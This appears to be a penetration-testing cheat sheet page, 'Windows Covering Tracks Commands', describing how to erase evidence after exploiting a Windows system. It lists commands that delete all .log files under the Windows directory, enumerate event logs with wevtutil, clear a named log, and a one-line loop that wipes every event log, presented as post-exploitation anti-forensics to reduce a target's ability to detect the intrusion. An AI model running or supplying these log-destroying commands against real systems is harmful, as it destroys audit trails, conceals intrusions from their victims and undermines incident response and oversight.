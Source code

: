 <!-- Code for collapse and expand -->
<script type="text/javascript"> 
$(document).ready(function() { 
$('div.view').hide(); 
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast'); 
return false; 
}); 
}); 
</script>

# Windows Covering Tracks Commands

Commands to run to clean up a system after you have exploited it and to reduce a target's ability to discover what you did while on their system and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

## del
### Delete Logs
 * **Command with arguments**: `del %WINDIR%\*.log /a /s /q /f`
 * **Description**: **MUST be run as an administrator**. Deletes all *.log files from the %WINDIR% directory.
 * **Output**:
   * NA

----

## wevtutil
### List Logs
 * **Command with arguments**: `wevutil el`
 * **Description**: Lists the different log files the system is keeping. More information can be found http://technet.microsoft.com/en-us/library/cc732848(WS.10).aspx
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 2008:** Show/Hide</div><div class="view"><code>C:\Users\johndoe>wevtutil el
Application
DFS Replication
Directory Service
DNS Server
File Replication Service
HardwareEvents
Internet Explorer
Key Management Service
Security
System
ThinPrint Diagnostics
EndpointMapper
ForwardedEvents
Microsoft-Windows-ADSI/Debug
Microsoft-Windows-Bits-Client/Analytic
Microsoft-Windows-Bits-Client/Operational
Microsoft-Windows-CAPI2/Operational
Microsoft-Windows-CertificateServicesClient-CredentialRoaming/Operational
Microsoft-Windows-CodeIntegrity/Operational
Microsoft-Windows-CodeIntegrity/Verbose
Microsoft-Windows-COM/Analytic
Microsoft-Windows-CorruptedFileRecovery-Client/Operational
Microsoft-Windows-CorruptedFileRecovery-Server/Operational
Microsoft-Windows-CredUI/Diagnostic
Microsoft-Windows-DateTimeControlPanel/Analytic
Microsoft-Windows-DateTimeControlPanel/Debug
Microsoft-Windows-DateTimeControlPanel/Operational
Microsoft-Windows-DCLocator/Debug
Microsoft-Windows-Diagnosis-DPS/Analytic
Microsoft-Windows-Diagnosis-DPS/Debug
Microsoft-Windows-Diagnosis-DPS/Operational
Microsoft-Windows-Diagnosis-MSDT/Debug
Microsoft-Windows-Diagnosis-MSDT/Operational
Microsoft-Windows-Diagnosis-PLA/Debug
Microsoft-Windows-Diagnosis-PLA/Operational
Microsoft-Windows-Diagnosis-WDI/Debug
Microsoft-Windows-Diagnostics-Networking/Debug
[...snip...]</code></div> 

### Clear Logs
 * **Command with arguments**: `wevtutil cl [LOGNAME]`
 * **Description**: **MUST be run as an administrator**.  Clears the contents of a specific log.
 * **Output**:
   * <div class="slide" style="cursor: pointer;"> **Windows 2008:** Show/Hide</div><div class="view"><code>c:\temp>wevtutil cl Microsoft-Windows-EventLog/Debug</code></div>
 * **Remove all logs**: `for /f %a in ('wevtutil el') do @wevtutil cl "%a"`
